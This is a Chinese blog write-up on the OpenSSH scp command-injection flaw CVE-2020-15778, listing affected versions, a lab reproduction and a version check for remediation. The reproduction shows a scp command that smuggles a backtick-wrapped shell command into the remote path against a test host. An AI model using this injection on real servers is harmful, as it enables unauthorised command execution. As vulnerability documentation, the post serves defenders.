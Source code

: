 **目录**

[漏洞描述](#t0 "漏洞描述")

[漏洞等级](#t1 "漏洞等级")

[漏洞影响版本](#t2 "漏洞影响版本")

[漏洞复现](#t3 "漏洞复现")

[漏洞修复](#t4 "漏洞修复")

* * *

### 漏洞描述

    [OpenSSH](https://so.csdn.net/so/search?q=OpenSSH&spm=1001.2101.3001.7020)是用于使用SSH协议进行远程登录的一个开源实现。通过对交互的流量进行加密防止窃听，连接劫持以及其他攻击。OpenSSH由OpenBSD项目的一些开发人员开发， 并以BSD样式的许可证提供，且已被集成到许多商业产品中。

    2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。

### 漏洞等级

**高危**

### 漏洞影响版本

OpenSSH <=8.3p1

### 漏洞复现

    scp 是 secure copy 的缩写。在linux系统中，scp用于linux之间复制文件和目录，基于 [ssh](https://so.csdn.net/so/search?q=ssh&spm=1001.2101.3001.7020) 登陆进行安全的远程文件拷贝命令。该命令由openssh的scp.c及其他相关代码实现。

*   攻击机：Kali
*   靶机：Centos7(192.168.10.129)

```
#意思是复制当前目录下的test.txt到目标的/tmp目录下，并且执行 touch /tmp/test.sh 的命令      
scp / test.txt root@192.168.10.129:'`touch /tmp/test.sh`/tmp'
```


![](https://img-blog.csdnimg.cn/20200802161310884.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200802161324914.png)

### 漏洞修复

输入以下命令查看openssh版本，如显示的版本号属于受影响的版本，则漏洞存在。

```
ssh -V
```


![](https://img-blog.csdnimg.cn/20200802162647385.png)

**修复方案**

官方尚未发布安全更新补丁，请密切关注厂商主页获取解决办法：[OpenSSH: Portable Release](http://www.openssh.com/portable.html "OpenSSH: Portable Release")

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[OpenSSH 命令注入漏洞通告（CVE-2020-15778）](https://mp.weixin.qq.com/s/6N6_zi-ejiEhv-YPuzz0pQ "OpenSSH 命令注入漏洞通告（CVE-2020-15778）")

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-107df6e5ed9b4bef8b035e0649b2449e)[Linux进阶](https://edu.csdn.net/skill/gml/gml-107df6e5ed9b4bef8b035e0649b2449e)[新增用户](https://edu.csdn.net/skill/gml/gml-107df6e5ed9b4bef8b035e0649b2449e)10949 人正在系统学习中